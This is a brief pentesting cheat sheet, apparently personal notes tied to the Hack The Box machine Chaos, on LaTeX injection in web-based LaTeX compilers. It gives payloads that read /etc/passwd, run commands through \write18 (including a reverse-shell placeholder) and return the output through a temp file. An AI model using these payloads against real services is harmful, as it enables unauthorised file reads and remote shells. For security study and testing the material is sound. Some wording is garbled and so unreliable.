

# Web-based LaTeX Compilers
LaTeX is used to for writing/making/generating PDFs.
Web-based LaTeX compilers are vulnerable to command injection because they take user input.
Links•
https://0day.work/hacking-with-latex/•
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20InjectionExamples• hackthebox Chaos
## Read file
\input{/etc/passwd}## Command Execution
\immediate\write18{cat /etc/passwd}\immediate\write18{<reverse shell>}### Viewing Command Output
The input of the command will be redirected to stdin, so use a temp file to get it.
\immediate\write18{cat /etc/passwd > /tmp/passwd}
\input{/tmp/passwd}Or you can see the result of the command in the response from the web server.
